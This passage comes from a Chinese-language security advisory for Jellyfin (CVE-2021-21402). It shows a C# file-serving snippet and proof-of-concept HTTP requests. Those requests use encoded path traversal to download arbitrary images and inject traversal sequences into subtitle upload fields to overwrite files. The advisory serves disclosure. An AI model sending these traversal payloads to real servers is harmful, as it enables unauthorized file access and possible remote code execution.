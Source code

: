             if (!string.IsNullOrEmpty(path) && System.IO.File.Exists(path))
            {
                var contentType = MimeTypes.GetMimeType(path);
                return PhysicalFile(path, contentType);
            }
        }

PoCs ：下载 `c:\temp\filename.jpg`:

    GET /Images/Ratings/c:%5ctemp/filename HTTP/1.1
    GET /Images/Ratings/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5ctemp/filename HTTP/1.1

#### 影响

此问题可能导致未授权访问图像文件，尤其是在将Jellyfin配置为[可从Internet访问时](https://jellyfin.org/docs/general/networking/index.html#running-jellyfin-behind-a-reverse-proxy)。

### 问题 5: `/Videos/itemId/Subtitles`经身份验证的文件上传（不限于Windows）

`Videos/{itemId}/Subtitles` 允许高级用户覆盖任意文件。由于它需要管理员权限，因此尚不清楚它是否跨越安全边界。

PoC:

    POST /Videos/d7634eb0064cce760f3f0bf8282c16cd/Subtitles HTTP/1.1
    ...
    X-Emby-Authorization: MediaBrowser DeviceId="...", Version="10.7.0", Token="..."
    ...
    
    {"language":".\\..\\","format":".\\..\\test.bin","isForced":false,"data":"base64 encoded data"}

#### 影响

此问题可能导致验证后的任意远程代码执行。

CVE
---

*   CVE-2021-21402